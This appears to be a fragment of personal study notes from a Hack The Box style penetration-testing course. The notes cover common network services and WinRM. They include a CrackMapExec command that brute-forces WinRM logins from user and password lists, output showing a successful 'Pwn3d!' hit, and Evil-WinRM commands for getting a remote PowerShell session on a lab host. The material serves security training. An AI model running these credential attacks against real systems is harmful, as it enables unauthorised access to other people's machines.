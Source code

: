 
# Network Services

All these services are hosted using specific permissions and are assigned to specific users. Apart from web applications, these services include (but are not limited to):
FTP
NFS
SMB
IMAP/POP3
SSH
MySQL/MSSQL
VNC
WinRM
RDP
Telnet
SMTP
LDAP

---
`RDP`, `WinRM`, and `SSH`. SSH is now much less common on Windows, but it is the leading service for Linux-based systems. for remote management
`they are configured with default settings in many cases.`
an authentication mechanism using a username and password for all of them

## WinRM

windows remote management.
WinRM must be activated and configured manually in Windows 10.
WinRM uses the TCP ports `5985` (`HTTP`) and `5986` (`HTTPS`).
#### CrackMapExec Usage
```shell-session
AhmaDb0x@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

tool that we can use to communicate with the WinRM service is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), which allows us to communicate with the WinRM service efficiently.

#### Evil-WinRM
```shell-session
AhmaDb0x@htb[/htb]$ sudo gem install evil-winrm
```

```shell-session
AhmaDb0x@htb[/htb]$ evil-winrm -i 10.129.42.197 -u user -p password
```
over Powershell Remoting Protocol (MS-PSRP)
john:november (Pwn3d!)

